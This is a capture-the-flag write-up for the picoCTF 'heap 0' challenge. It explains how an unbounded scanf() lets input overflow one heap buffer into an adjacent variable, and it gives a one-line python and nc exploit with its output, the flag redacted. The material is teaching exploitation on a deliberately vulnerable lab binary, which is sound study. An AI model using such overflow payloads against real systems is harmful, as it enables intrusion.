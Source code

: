 # heap 0 #
 
## Overview ##

50 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #heap #bufferoverflow`

## Description ##

Are overflows just a stack concern?

## Approach ##

Inspecting the provided `chall.c` source file, we can see in `check_win()` that we need heap variable `safe_var` to not equal `bico` (the value initialised within the `init()` function) to dump the contents of the flag file to standard output.

Global variables are;

    int num_allocs;
    char *safe_var;
    char *input_data;

Where `safe_var` and `input_data` are allocated from the heap via `malloc()` with the sizes;

    // amount of memory allocated for input_data
    #define INPUT_DATA_SIZE 5
    // amount of memory allocated for safe_var
    #define SAFE_VAR_SIZE 5

Running the program the addresses of these allocated buffers are conveniently shown:

    $ ./chall

    Welcome to heap0!
    I put my data on the heap so it should be safe from any tampering.
    Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

    Heap State:
    +-------------+----------------+
    [*] Address   ->   Heap Data   
    +-------------+----------------+
    [*]   0x5e36fb3416b0  ->   pico
    +-------------+----------------+
    [*]   0x5e36fb3416d0  ->   bico
    +-------------+----------------+

    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: 

Using the memory addresses displayed we can see the `safe_var` buffer is located 32 bytes after the `input_data` buffer (`0xD0 - 0xB0 = 32`). Therefore with the unbounded `scanf()` within `write_buffer()` to the `input_data` buffer we can overflow this buffer and write into the `safe_var`, modifying its contents so it no longer contains `pico`.

## Solution ##

The final solution to write 32 `'A'`s and then execute the "Print Flag" menu item, this will overflow the the start of `safe_var` with the null termination from our 32 character input string :

    $ echo $(python3 -c 'print("2\n" + "A"*32 + "\n4\n")') | nc tethys.picoctf.net 54775

    Welcome to heap0!
    I put my data on the heap so it should be safe from any tampering.
    Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

    Heap State:
    +-------------+----------------+
    [*] Address   ->   Heap Data   
    +-------------+----------------+
    [*]   0x556daa9862b0  ->   pico
    +-------------+----------------+
    [*]   0x556daa9862d0  ->   bico
    +-------------+----------------+

    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: Data for buffer: 
    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: 
    YOU WIN
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.